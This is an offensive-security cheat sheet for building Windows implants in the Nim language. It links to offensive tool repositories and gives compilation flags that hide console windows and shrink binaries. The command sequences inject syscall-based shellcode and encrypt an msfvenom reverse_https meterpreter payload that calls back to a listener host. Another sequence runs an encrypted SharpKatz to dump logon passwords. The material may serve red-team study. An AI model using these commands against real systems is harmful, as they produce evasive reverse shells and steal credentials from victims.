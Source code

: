 # Nim

* [https://github.com/byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ sudo apt install nim -y
Or
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

Dependencies:

```
Nim > nimble install winim nimcrypto zippy
```




## Compilation

Basic:

```
Nim > nim c program.nim
```

To not popup the Nim binaries console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passC=-flto --passL=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```

Add the needed relocation section to the resulting executable (from Windows):

```
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols program.nim
```




## Inject Shellcode



### NimlineWhispers

* [https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/](https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/)
* [https://github.com/ajpc500/NimlineWhispers](https://github.com/ajpc500/NimlineWhispers)
* [https://github.com/snovvcrash/NimlineWhispers](https://github.com/snovvcrash/NimlineWhispers)

How-to:

1. Generate a nim header with syscalls definitions (function names randomized): `python3 NimlineWhispers.py --randomise`.
2. Modify [*shellcode_bin.nim*](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_bin.nim) template to fit new function names.
3. Generate a shellcode of your choice, put it into the template and compile the binary: `nim c -d=mingw --app=console --cpu=amd64 shellcode_bin.nim`.


#### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.16.18 LPORT=443 -e x64/xor -b '\x00' -f csharp
$ nim c encrypt_shellcode.nim
$ ./encrypt_shellcode 'Passw0rd!' b64.txt
$ cat b64.txt | xclip -i -sel c
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_shellcode_loader_syscalls.nim
```




## Execute C# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)
* [https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)

```
$ pwsh -exec bypass
PS > . ./CSharpToNimByteArray.ps1
PS > CSharpToNimByteArray -inputfile csharp.exe
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols execute_assembly_bin.nim
```



### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim)

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_assembly_loader.nim
$ ./encrypt_assembly 'Passw0rd!' SharpKatz.exe b64.txt
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```
